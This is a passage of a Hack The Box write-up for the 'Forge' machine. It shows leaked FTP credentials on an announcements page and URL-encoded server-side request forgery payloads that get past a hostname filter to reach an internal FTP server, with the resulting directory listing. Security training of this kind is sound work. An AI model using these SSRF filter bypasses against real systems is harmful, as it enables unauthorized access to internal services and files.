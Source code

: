 Accessing the announcement, we find ftp credentials for a user. We however cannot directly use them since the ftp port is filtered in the nmap scan. However, there are more announcements that show us that the admin portal allows for ftp uploads.

```bash
┌──(kali㉿kali)-[~/htb/forge]
└─$ curl http://forge.htb/uploads/6puGcte6363bT55qBiwF
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

Trying to access the ftp service, I get another filter

```bash
http://%61%64%6D%69%6E%2E%66%6F%72%67%65%2E%68%74%62/upload/?u=ftp://user:heightofsecurity123!@localhost
```

![Untitled](/images/forge-htb/Untitled%205.png)

Once more, a bypass is needed. Encoding [localhost](http://localhost) as hex, works as well. And this gives us access to the ftp service.

```bash
http://%61%64%6D%69%6E%2E%66%6F%72%67%65%2E%68%74%62/upload?u=ftp://user:heightofsecurity123!@%6C%6F%63%61%6C%68%6F%73%74
```

```bash
┌──(kali㉿kali)-[~/htb/forge]
└─$ curl http://forge.htb/uploads/LBnUne2HDCUFqeu14r15
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Dec 21 06:19 user.txt
```
